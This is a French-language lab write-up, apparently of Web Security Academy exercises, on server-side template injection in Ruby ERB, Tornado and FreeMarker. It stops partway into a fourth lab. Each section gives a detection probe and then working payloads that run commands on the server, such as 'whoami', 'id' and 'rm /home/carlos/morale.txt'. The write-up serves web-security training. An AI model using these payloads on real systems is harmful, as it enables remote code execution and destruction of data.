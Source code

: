 Dans la consigne, il est indiqué que ce lab tourne avec du Ruby / ERB.

En testant un payload classique de SSTI pour Ruby, on a bien une évaluation : 

>GET /?message=<%= 9*9 %> HTTP/2

Payload à utiliser pour supprimer Carlos comme demandé : 

>GET /?message=<%25%3d+system("rm+/home/carlos/morale.txt")+%25> HTTP/2


### Basic server-side template injection (code context)

Dans la consigne, il est indiqué que ce lab tourne avec du Tornado.

Voir : https://ajinabraham.com/blog/server-side-template-injection-in-tornado

Dans la requête de changement de format, on voit un paramètre potentiellement vulnérable aux SSTI : 

    blog-post-author-display=user.first_name&csrf=3a2j2ElX1FPC5bifVQLZ0eJfo5hUZg5q

Payloads utilisés : 

    blog-post-author-display={{9*9}}
    blog-post-author-display={{9*9}}{%%20import%20os%20%}{{os.popen(%22whoami%22).read()}
    blog-post-author-display={{9*9}}{%%20import%20os%20%}{{os.popen(%22rm%20/home/carlos/morale.txt%22).read()}
    

### Server-side template injection using documentation

Chaque produit a une fonctionnalité "Edit template" et cela permet de remarquer que le site utilise des templates de la forme ${XXX} : 

><p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p>

En modifiant le dernier template par ${9*9} on a bien une évaluation.

En modifiant le dernier template par ${AAAAA} on a une erreur donnant plus d'informations sur le back-end : 

>FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> AAAAAAAAA [in template "freemarker" at line 4, column 62]
>...

Voir : https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java 

Payloads utilisés : 

    ${"freemarker.template.utility.Execute"?new()("id")}
    ${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}

### Server-side template injection in an unknown language with a documented exploit

En essayant de voir les détails du premier produit de la liste, on a une erreur "**Unfortunately this product is out of stock**" et on voit que cette erreur est reflétée dans le header "**Location**" de la réponse puis dans une **seconde requête GET** : 
